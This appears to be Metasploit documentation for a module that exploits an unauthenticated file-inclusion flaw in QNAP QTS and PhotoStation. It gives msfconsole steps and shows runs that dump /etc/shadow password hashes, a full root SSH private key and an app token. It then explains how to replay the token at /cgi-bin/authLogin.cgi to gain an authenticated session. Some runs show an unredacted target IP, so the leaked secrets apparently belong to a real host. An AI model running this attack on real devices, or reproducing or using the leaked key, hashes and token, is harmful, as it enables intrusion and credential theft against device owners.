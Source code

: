 ## Vulnerable Application

### Introduction

This module abuses a vulnerability in QNAP QTS and PhotoStation that allows an
unauthenticated user to download files off the file system, and because the server
runs as root, it's possible to include sensitive files, including ssh private keys and
password hashes.

`/etc/shadow` entries can be processed offline, the module saves them in the creds,
and they can be cracked using john the ripper, or hashcat.

There is some confusion in the CVEs assigned to this vulnerability, it corresponds to
one of these : CVE-2019-7192, CVE-2019-7194 or CVE-2019-7195, notice that two of them
have the same description.


## Verification Steps

1. Start `msfconsole`
2. Do: `use auxiliary/gather/qnap_lfi`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
6. Verify if `check` detects vulnerable hosts as it should
7. Do: `run`
8. Do: `loot`
9. Verify if the run command retrieved the content of /etc/shadow if the host was vulnerable, and saved the file in the loot
10. Do: `creds`
11. Verify if the retrieved hashes were saved in the creds, and their hash type identified correctly.

## Options

### FILEPATH

Set this to the file you want to dump. The default is `/etc/shadow`.

### PRINT

Whether to print file contents to the screen, defaults to true.

## Scenarios

### QNAP QTS 4.3.3

#### Dumping hashes from `/etc/shadow`

```
msf5 auxiliary(gather/qnap_lfi) > run
[*] Running module against [REDACTED]

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MDIy
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin
[+] File content:
admin:$1$$CoERg7ynjYLsj2j4glJ34.:14233:0:99999:7:::
guest:$1$$ysap7EeB9ODCrO46Psdbq/:14233:0:99999:7:::
httpdusr:!:16762:0:99999:7:::
Redouane:$1$$EBquHgqfhZQKEdjd8dqWh1:16935:0:99999:7:::
[sshd]:!:17496:0:99999:7:::
[appuser]:!:18036:0:99999:7:::
af4de148:$1$$Wb6XAeBxv2R5HfU8uyZc.1:18407:0:99999:7:::
[*] adding the /etc/shadow entries to the database
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > loot

Loot
====

host           service  type       name    content                   info  path
----           -------  ----       ----    -------                   ----  ----
[REDACTED]              qnap.http  shadow  application/octet-stream        /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin

msf5 auxiliary(gather/qnap_lfi) > 

```

#### Dumping ssh private keys

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /root/.ssh/id_rsa
FILEPATH => /root/.ssh/id_rsa
msf5 auxiliary(gather/qnap_lfi) > exploit 
[*] Running module against 62.46.219.229

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MjE1
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213018_default_62.46.219.229_qnap.http_983860.bin
[+] File content:
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtKUCApMRysMNtXwybkPvBL7TY4w/gSZ7k0TN6JkNXMUVI2oM
euNvkII/xxRmOO9IFenpoOFzCr3xlWWm7qsHON5DDJ+e24HC/C8uPISY0klBn+JD
ddKgQl4ebUToEaKJU+uPiAfDkHO2qh1q6DMnbHRQ39QHyw1W1UhegjCNDAQiLJ8Q
jsITJD6j4VxsjUeginnPD/Rt5hcM9pmYn580A2b4s1P1XN5JzpPGcZ015Y7XUXVu
Xg7G4uq+fi8TTKJyqCS81W//TwX3SBzEzSecxU7whMF8Xaa6WiZl1pj/4llKZnIJ
y49DKOKEMdwa7SEJgyuVZiF+vsu6yk3ES/MY1wIDAQABAoIBACVKfvy7EYwy8eyK
I/sBSSFIp2jAdgeaQx5msL8YgVqqUK/L36Gqu8gwKyxUuLl+I/pqHFGa2N3Z0jpO
DsTsR4Rk1aCQfwG/atoWf0v873NRrhtsYRK8lVq+BTf3ZpTlYcYSNcIWIDf8uzOo
+P3QOY45AM0D/0vaiBdlZiUoEqXtB6fybwvNj2uqq1uzv0E0liTb/HtqR2Ai4fHZ
ECs0TdTlIfF9vC8kO1ItCOY4pDr06/xgMhGKAnJsgVggRicDUXovnskugqJG9BqO
sNB8i+R309YiF6/T79pzjAEqxNKcZ+5ckn3QOMrBnsj5Yi/3iDYnYK7y2WB6phnM
JJ8pI3kCgYEA4CzcDOHXnQ4BD2zNPYdFv1UPfuB2WL0nOUBPh/7Z87CflMftMeHS
k5rFxvM33Zdq5a5MEkUTpkC79ID6mVKJd3HT/AaYIvCiYJDbKHYlbrLaHChc0t9a
qvmNA244EbPdm/2r7g68PhEXYGnnHDq+FQ5duyA0yqcSm0QP6+3lK4MCgYEAzkof
8SVh/UN7auUWnIv2H1J6PUZHjXDzRPLDz5FqYrhpSu4mt7tzDoFNwpP1A3cV3eVP
f60yrwQH7U4a6DtaC72gh7kdYogtY1UD+UOWX1Ocd0083zJGPO9Xbnd2yS5nMnQe
I0LpynjWmLDZhENHrzm3rcL9tV+IZ/gv6RHvOR0CgYBI4sz480TjL3ZwyXNBmgW3
W7SaD+jqmTVzi9FP6jB65uY7vXUFTuLkUuIS+WkkhuKeorjhB8yHtWxm5riTuR4w
07WUr6AvXAWvV+mpkiBBia0Ykpb7iNs108VhZCieuNhIq4WG9QuHMo9jLYuSxhaf
Sfh3qtT/PqryCIMUtlhYeQKBgD8hQBU0M4CmHibgZMMTsgZz3yTRVSRb5Ja9FF95
SO1dMhvUNdUUcGmH+JwLW3fsAa0ed+3CuzgEK8jbljBruWrOZUojxHJa6kjzw3uM
y3/wvnlkEbTcVdJgDImp1ZhLsxkln/N6jsF/qWyg8nAfhtiA+U0b1ziiO8RVl5Pk
ASmhAoGBANIaI7/PzJwc+VevrWTzd8cakF9h8OseG6hIK5Hz3B9YpvfLqe0qWfeU
tfdh+WpFqQycJdz2RimVDhSAKhnHy3dkzHmuGnN55UmFqX/eDe5WCoxk7QP98W+y
ECvSmTESX+vkqMq5sbzBxAf6TAw+i14eH4CgEsGnc0ui7ri5CU6y
-----END RSA PRIVATE KEY-----
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > 
```

#### Retrieving the token, can be used to authenticate

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /share/Multimedia/.@__thumb/ps.app.token
FILEPATH => /share/Multimedia/.@__thumb/ps.app.token
msf5 auxiliary(gather/qnap_lfi) > exploit 
[*] Running module against 62.46.219.229

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MzUw
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213233_default_62.46.219.229_qnap.http_815651.bin
[+] File content:
8f9825b4410aaa3bc128865b6a1e75a6
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > 
```

The token can then be used to authenticate, by sending a POST request to the uri `/cgi-bin/authLogin.cgi`, for the example above:

sending the POST payload: `app_token=8f9825b4410aaa3bc128865b6a1e75a6&app=PHOTO_STATION&auth=1`

This would return an `authSid`, that can be used with most endpoints that require authentication.
